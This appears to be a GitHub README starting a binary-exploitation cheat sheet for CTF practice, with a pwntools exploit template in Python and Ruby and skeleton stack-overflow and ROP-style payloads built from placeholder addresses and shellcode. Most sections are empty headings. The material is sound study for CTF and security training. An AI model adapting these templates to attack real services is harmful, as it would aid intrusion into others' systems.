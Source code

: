 # Native Application Exploitation aka Binary Exploitation aka Pwning
Command Line cheat sheet for binary exploitation

* [Templates](#templates)
* MacOS
* Linux
	* Stack overflow
	* Format string
	* Heap
	* FILE
	* Integer overflow
	* Race conditions
	* Kernel
	* ARM
* Windows
	* Stack
	* Kernel
* [Browser](browser.md)

<h2 id="templates">Exploit template</h2>

<h4>Python</h4>

	#!/usr/bin/env python
	
	from pwn import *

	BINARY = './vuln'
	HOST, PORT = '8.8.8.8', 1337

	elf = ELF(BINARY)
	libc = ELF('./libc.so.6')

	context.arch = 'amd64'
	context.terminal = ['tmux', 'new-window']

	printf = elf.plt['printf']
	free_got = elf.got['free']
	malloc_hook = libc.sym['__malloc_hook']

	def start():
		if not args.REMOTE:
			print "LOCAL PROCESS"
			return process(BINARY)
		else:
			print "REMOTE PROCESS"
			return remote(HOST, PORT)

	
	def sample_function(data):
		p.sendlineafter('>> ', '1')
		p.sendafter(':\n', data)
	
	
	while True:
		p = start()	

	p.interactive()

<h4>Ruby</h4>
	
	gem install pwntools
	
	require 'pwn'
	
	context.arch = 'i386'
	context.log_level = :debug
	z = Sock.new 'chall.pwnable.tw', 10000

	z.recvuntil "Let's start the CTF:"
	z.send p64(0x1337).rjust(0x18, 'A')
	

	z.interact

	


<h2 id="linux">Linux</h2>

<h3 id="stack">Stack Exploitation</h3>
	
<h4>Stack overflow</h4>

	buffer = 'A' * 1337
	rip = p64(0x1337) # Address of shellcode
	payload = "SHELLCODE"

	exploit = buffer + rip
	

<h4>Shellcode in bss section</h4>

	buffer = 'A' * 1337
	gets = elf.plt['gets']
	bss = elf.bss(0x20) # BSS at 0x20 bytes offset
	pop_rdi = p64(0x1337)

	payload = buffer + pop_rdi + bss + gets + bss

<h4>Ret2libc</h4>

<h4>ROP syscall</h4>
		
<h4>ROP</h4>

<h3>Format String</h3>

<h3>Heap</h3>

<h4>Off by one</h4>

<h4>Chunk extension/Overlapping</h4>

<h4>Unlink</h4>

<h4>Use After Free</h4>

<h4>Fastbin attack</h4>

<h4>Unsorted bin attack</h4>

<h4>Large bin attack</h4>

<h4>Tcache attacks</h4>

<h4>House of Einherjar</h4>

<h4>House of Force</h4>

<h4>House of Lore</h4>

<h4>House of Orange</h4>

<h4>House of Rabbit</h4>

<h4>House of Roman</h4>

<h3>FILE</h3>

<h3>Integers</h3>

<h3>Race Conditions</h3>

<h3>Kernel</h3>
